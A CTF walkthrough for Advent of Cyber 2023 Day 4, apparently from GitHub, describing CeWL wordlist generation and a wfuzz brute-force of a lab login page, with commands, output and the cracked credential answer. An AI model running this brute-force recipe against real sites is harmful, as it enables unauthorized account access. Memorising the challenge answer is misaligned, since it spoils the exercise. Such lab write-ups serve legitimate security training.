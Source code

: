 # Day 4

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/87565812-f06a-4f09-8433-01c6148f9d83)

## CeWL: Custom Wordlist Generator

Many tools rely on pre-defined lists or common dictionary attacks, but CeWL stands out for the following reasons:

      1. **Target-specific wordlists:**
         - CeWL crafts wordlists specifically from the content of a targeted website. The generated list is tailored to the vocabulary and terminology used on that site, increasing the efficiency of brute-forcing tasks.
      
      2. **Depth of search:**
         - CeWL can spider a website to a specified depth, extracting words not just from one page but also from linked pages up to the set depth.
      
      3. **Customizable outputs:**
         - CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This customization is advantageous for targeting specific types of credentials or vulnerabilities.
      
      4. **Built-in features:**
         - While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
      
      5. **Efficiency:**
         - Given its customizability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
      
      6. **Integration with other tools:**
         - Being command-line based, CeWL can be seamlessly integrated into automated workflows, and its outputs can be directly fed into other cybersecurity tools.
      
      7. **Actively maintained:**
         - CeWL is actively maintained and updated, staying relevant and compatible with contemporary security needs and challenges.


## Day 4 Task:

### 1. What is the correct username and password combination? Format username: password

With CewlGenerate a list of Usernames with the Command —

    cewl -d 0 -m 5 -w usernames.txt http://MACHINE-IP/team.php — lowercase
   
Again with CewlGenerate a list of Passwords with the Command —

    cewl -d 2 -m 5 -w passwords.txt http://MACHINE-IP —-with-numbers
   
Now bruteforce the Credentials using wfuzz with the command —

    wfuzz -c -z file,usernames.txt -z file,passwords.txt — hs “Please enter the correct credentials” -u http://MACHINE-IP/login.php -d “username=FUZZ&password=FUZ2Z”

```
╰─ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.1.59/login.php -d "username=FUZZ&password=FUZ2Z"      ─╯

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.1.59/login.php
Total requests: 9324

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                     
=====================================================================

000006292:   302        118 L    297 W      4442 Ch     "isaias - Happiness"                                                                                        

Total time: 0
Processed Requests: 9324
Filtered Requests: 9323
Requests/sec.: 0


```

### 2. What is the Flag?

Log in and click on the Email with the Subject “Confidential Message”

